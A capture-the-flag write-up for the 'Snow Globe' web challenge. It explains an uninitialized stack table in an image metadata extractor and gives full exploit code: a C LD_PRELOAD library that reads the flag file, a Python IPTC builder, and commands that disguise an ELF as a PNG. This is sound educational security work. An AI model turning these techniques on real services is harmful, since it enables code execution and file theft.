







# Snow Globe - Writeup

> Aaahh, finally November arrived: Trees painted in golden and crimson, their leaves shaken by the cold crispy air; Its chilling cold is heralding the crystalline spectacle of nature that is soon to cover the landscape under a white blanket.
>
> 'Tis the service to package your best snapshots into fancy WebP animated snow globes, like magick. Give it a whirl, and you might get out a cool surprise!

## Description

Snow Globe is a web service that allows a user to upload an image (BMP, GIF, JPEG, PNG, TIFF or WebP) and "place" it in a snow globe, that is some snow is animated atop the image and a snow globe overlay is placed over each frame.

The service is running a Flask service. On upload, the service processes the image:

- `/app/extractor` converts the encoded image into a raw 256x256 RGB image. Furthermore, the extractor also parses IPTC metadata encoded in the image and emits a list of variables.
- `/app/globe_wrapper` loads the variable list and sets them up as environment variables, sets up a seccomp filter and further executes `/app/snow_globe`. As the seccomp filter does not allow opening files for writing, the output WebP file is opened before and passed to the next stage as file descriptor.
- `/app/snow_globe` reads the RGB file and the overlay, creates the animation frames, and merges the animation into a WebP. The previously extracted metadata is placed in the WebP as XMP data.

When the animation was created, the Flask service does a sanity check whether the output file is an actual WebP animation.


## The vulnerability

> :warning: **Note**: The Docker container is missing additional `chmod`s to allow accesses to the flag only from the `/app/snow_globe` binary. While it does not interfere with the intended solution, it may open other unintended ways of exploitation


The communication between the extractor and the snow globe binary is problematic: The metadata of the original image is given as a list of environment files (which are loaded by `globe_wrapper` before `snow_globe` is running).
There are some environment variables that allow us to alter how a program is executed . For example, the linker (`man 8 ld-linux.so`) has variable `LD_PRELOAD` that allows us to preload a shared object "before all others":



----

Providing a shared object is easily possible: We cannot directly upload it as the extractor would fail to load the "image". However, it is possible to encode an ELF file as an image. It requires to resize the ELF file to `256*256*3` (due to the size and red-green-blue), but resizing the ELF from its original size works without a problem. For example, an ELF file `exploit.so` can be resized and encoded as PNG with:

```sh
fallocate -l $((256*256*3)) exploit.so
convert -depth 8 -size 256x256 RGB:exploit.so exploit.png
```

While the Flaks service places the data into separated subdirectories, the subdirectory itself is determined by a hidden form input is thus able to be user-controlled!

---

As the Flask service is checking whether the output is a valid, we have to place the flag into the WebP somewhow. There are two possible approaches for that:

- Use ImageMagick to create a tiny animation.
- Use an existing WebP image and place it in the metadata.

The exploit is bundling a 2-frame 1x1 WebP image into the `.data`. The image is appended to the file and the WebP RIFF container is patched up to have a valid file size and "metadata" size.

- https://developers.google.com/speed/webp/docs/riff_container#riff_file_format
- https://developers.google.com/speed/webp/docs/riff_container#metadata

---

`/app/extractor` has a vulnerability that allows us to write arbitrary environment variable names into the metadata file:

The function at offset `0x2010`, `extract_metadata`, is responsible for validating the data by calling `validate_iptc` (`0x1de0`) and afterwards `parse_iptc_iim_data`(`0x1ae0`).



Function `parse_iptc_iim_data` is using a two-dimensional `char*` table to map IPTC metadata to a environment variable name with the record and dataset number. These can range between 0-10 and 0-255, respectively. This table is allocated on the stack, zero'd out and populated.

However, this function has a off-by-one error that only zeros out 9 record arrays (0..8), leaving the last one, 9, uninitialized:

In Ghidra:



In the original source:



So what can we do with that? Let's get the start of the table from register `rdi` in `0x1b47`, continue to after the initialization at `0x1bfb` and find out:

As we can see, if we only take the first 9 rows, the table is cleanly initialized (`p (*((char*(*) [9][256]) <start_of_table>))`):



The last row, though, was not cleaned and contains interesting data (`p (*((char*(*) [10][256]) $3))[9]`):


In the uninitialized data, the element at index `0x0e` is conveniently pointing to the value of the last validated IPTC entry!

This is because the validation function prints a list of encountered elements with `fprintf`. The `*printf` family of functions are quite complex and somewhere internally the pointer of the last `%s` that contains the value pointer is pushed on the stack. The print function's frame matches up in such a way that this pointer matches with the parsing function frame's `env_table[9][14]`.

By crafting IPTC metadata with 9:14 containing the ELF path and another record afterwards with a valid address in the table (e.g. 9:24) containing the target environment variable `LD_PRELOAD`, we can write the variable so that our ELF is executed.


## Exploit

This is a summary of the exploit. Please see the exploit Dockerfile and `exploit`.

At first we have to create a tiny WebP animation with 2 frames and 1x1 size: `convert -delay 100 -size 1x1 xc:Red -page 1x1 xc:Green -loop 0 mini.webp`

We can use that and `xxd` to create a header file and build a shared object file that reads the flag and places it as metadata:

```c
#include "miniwebp.h"
#include <asm/unistd_64.h>

#define SEEK_SET 0
#define SEEK_CUR 1
#define SEEK_END 2

#define AT_FDCWD		-100

#ifdef DEBUG
#define FLAG "../challenge/flag.png"
#define CONSTRUCT_ATTR
#else
#define FLAG "/flag.png"
#define CONSTRUCT_ATTR __attribute__((constructor))
#endif


typedef unsigned long long uint64_t;
typedef unsigned int uint32_t;
typedef long long int64_t;

_Static_assert(sizeof(uint32_t) == 4, "uint32_t does not match!");
_Static_assert(sizeof(uint64_t) == 8, "uint64_t does not match!");
_Static_assert(sizeof(int64_t) == 8, "int64_t does not match!");


uint64_t syscall(register uint64_t call_no, uint64_t arg0, uint64_t arg1, uint64_t arg2, uint64_t arg3, uint64_t arg4, uint64_t arg5) {
    register uint64_t call_no_asm asm("rax") = call_no;
    register uint64_t arg0_asm asm("rdi") = arg0;
    register uint64_t arg1_asm asm("rsi") = arg1;
    register uint64_t arg2_asm asm("rdx") = arg2;
    register uint64_t arg3_asm asm("r10") = arg3;
    register uint64_t arg4_asm asm("r8") = arg4;
    register uint64_t arg5_asm asm("r9") = arg5;

    uint64_t output;

    asm volatile(
        "syscall\n"
        "mov %%rax, %[output]\n"
        : [output] "=rm" (output)
        : "r"(call_no_asm), "r"(arg0_asm), "r"(arg1_asm), "r"(arg2_asm), "r"(arg3_asm), "r"(arg4_asm), "r"(arg5_asm)
    );

    return output;
}

int openat(int dirfd, const char* path, int oflag, uint64_t mode) {
    return (int) syscall(__NR_openat, (uint64_t)dirfd, (uint64_t)path, (uint64_t)oflag, mode, 0, 0);
}
int64_t lseek(int filedes, int64_t offset, int whence) {
    return (int64_t) syscall(__NR_lseek, (uint64_t)filedes, (uint64_t)offset, (uint64_t)whence, 0, 0, 0);
}
int64_t read(int filedes, void* buf, uint64_t count) {
    return (int64_t) syscall(__NR_read, (uint64_t)filedes, (uint64_t)buf, (uint64_t)count, 0, 0, 0);
}
int64_t write(int filedes, void* buf, uint64_t count) {
    return (int64_t) syscall(__NR_write, (uint64_t)filedes, (uint64_t)buf, (uint64_t)count, 0, 0, 0);
}
int close(int fd) {
    return (int) syscall(__NR_close, fd, 0, 0, 0, 0, 0);
}
int dup2(int oldfd, int newfd) {
    return (int) syscall(__NR_dup2, (uint64_t)oldfd, (uint64_t)newfd, 0, 0, 0, 0);
}

void kill() {
    syscall(__NR_exit, 42, 0, 0, 0, 0, 0);
}
void success() {
    syscall(__NR_exit, 0, 0, 0, 0, 0, 0);
}

void memset(char* buf, int c, uint64_t len) {
    for (uint64_t i = 0; i < len; i++)
        buf[i] = c;
}

const int out_fd = 3;

void CONSTRUCT_ATTR preload_init(void) {

    int flag_fd = openat(AT_FDCWD, FLAG, 0, 0);
    if (flag_fd < 0)
        kill();

    int64_t fsize = lseek(flag_fd, 0, SEEK_END);
    lseek(flag_fd, 0, SEEK_SET);
    if (fsize < 0)
        kill();

    uint64_t size = fsize + 8;
    // Size has to be even
    if (size & 1)
        size++;

    char buf[size];
    memset(buf, '\0', size);
    buf[0] = 'X';
    buf[1] = 'M';
    buf[2] = 'P';
    buf[3] = ' ';
    *((uint32_t*)(buf+4)) = fsize;
    int64_t ret = read(flag_fd, buf+8, fsize);
    if (ret < 0)
        kill();

    *((uint32_t*)(mini_webp + 4)) += size;
    mini_webp[0x14] |= 0b100; // XMP flag in VP8X

    write(out_fd, mini_webp, mini_webp_len);
    write(out_fd, buf, size);
    close(out_fd);

    success();
}
```

The ELF file is resized and encoded as PNG file as described above. In addition, we include a IPTC file that triggers setting the `LD_PRELOAD` variable:

```
fallocate -l $((256*256*3)) lib.so && convert -depth 8 -size 256x256 RGB:lib.so -profile exploit.iptc exploit.png
```

The IPTC file is created in `create_iptc.py`:
```
#!/usr/bin/env python3

import sys
import struct

iptc = sys.argv[1]
ticket = sys.argv[2]

# Create a IPTC file

# pwndbg> p (*((char*(*) [10][256]) 0x7ffff75359a0))[9][14]
# $60 = 0x5597f00dab0a "Example Writer"
# pwndbg> p (*(char*(*) [10][256])0x7ffd741bac70)[9][23]
# $6 = 0x55ccf72352a2 "%hhx, dataset=%hhu:%02hhu, size=%hu, data=%.*s\n"
#
# - Last IPTC entry has to be value "LD_PRELOAD"
# - iptc[9][14] must be the "Image" RGB value

upload_path = f"/tmp/snow_globe/intermediate_results/{ticket}.rgb"
tag = 0x1c
with open(iptc, "wb") as f:
    dat = struct.pack(">BBBH", tag, 0x09, 0x0e, len(upload_path)) + upload_path.encode()
    f.write(dat)

    dat = struct.pack(">BBBH", tag, 0x09, 0x17, len("LD_PRELOAD")) + b"LD_PRELOAD"
    f.write(dat)
```


We now just have to upload the file with the fixed ticket.

The resulting WebP image contains the flag as PDF in the XMP metadata. You can extract it with `exiftool` (or ImageMagick's `convert`): `exiftool -b -xmp result.webp > flag.png`



